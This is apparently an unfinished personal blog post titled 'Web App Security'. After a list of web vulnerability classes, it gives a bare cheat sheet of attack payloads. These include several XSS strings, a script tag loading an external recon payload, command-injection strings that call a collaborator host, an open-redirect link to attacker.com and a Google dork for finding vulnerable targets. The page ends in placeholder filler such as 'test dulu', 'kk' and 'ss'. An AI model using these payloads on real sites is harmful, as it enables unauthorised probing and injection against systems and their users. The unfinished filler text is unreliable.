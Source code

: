 ```yaml
---
title: "Web App Security"
date: "2019-12-19"
layout: posts

---
```


Cross-site scripting (XSS)
SQL injection
Cross-site request forgery
XML external entity injection
Directory traversal
Server-side request forgery


XSS
<u>test</u>
<b>lgmstest</b>
<script>alert(1)</script>
</script/x>alert(1)</script/x>
<svg/onload=alert(\"1\")
<a src=www.google.com>test</a>
<h1>t</h1>
<H1>T
>'>"><img src=x onerror=alert(0)>
“><img src=x onerror=prompt(document.domain)>

<script alert(9)</script>.jpeg
<script>alert(1)</script>
</script/x>alert(1)</script/x>
<svg/onload=alert(\"1\")
xss?name=Bob<script src='https://demoapp.loc/js/script?v=1.7.3.css%2522/>%2527)%3Balert(%2522Yeah!%2520Chaining!%2522)%3B//'></script>
?<script src="https://raw.githubusercontent.com/nettitude/xss_payloads/master/recon.php"></script>



Injection
|%7cnslookup%20(collabip)%20%23
%7cping%20-c%2015%20127.0.0.1%20%23

redirect
https://example.com/signup?redirectUrl=https://attacker.com/
inurl:redirectUrl=http site:target.com

test dulu
![source-code](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/finn.jpg){: .align-center}

---

**Solution**


    kk
    ss


`test`


